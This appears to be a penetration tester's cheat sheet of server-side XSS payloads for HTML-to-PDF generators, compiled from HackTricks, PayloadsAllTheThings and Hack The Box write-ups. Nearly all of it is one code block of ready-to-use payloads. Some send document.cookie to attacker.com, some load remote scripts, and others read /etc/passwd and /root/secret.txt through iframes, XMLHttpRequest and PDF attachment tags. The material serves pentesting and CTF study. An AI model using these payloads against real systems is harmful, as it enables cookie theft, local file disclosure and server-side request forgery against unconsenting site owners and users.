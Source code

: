 # Server Side XSS

[Hacktricks Server Side XSS (dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications) - with combination from [Ippsec.Rocks](https://ippsec.rocks) and [0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html)
```html
<!-- <script></script> tags do not always work, use <img -->

<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">

<!-- SVG payloads: https://github.com/allanlw/svg-cheatsheet -->

<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>

<!-- Load an external script -->
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>

<!-- Read Local Files -->
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>

<iframe src='file:///etc/passwd' height='1000' width='1000'></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />

<!-- SSRF -->
<!-- HTML 2 PDF engines that allow to specify attachments for PDF like PD4ML -->
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html><pd4ml:attachment src="/etc/passwd" description="attachment sample" icon="Paperclip"/></html>
```

## References

[Hacktricks Server Side XSS (dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) 
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)
[Ippsec.Rocks](https://ippsec.rocks)
[0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html) - HTB box spoiler warning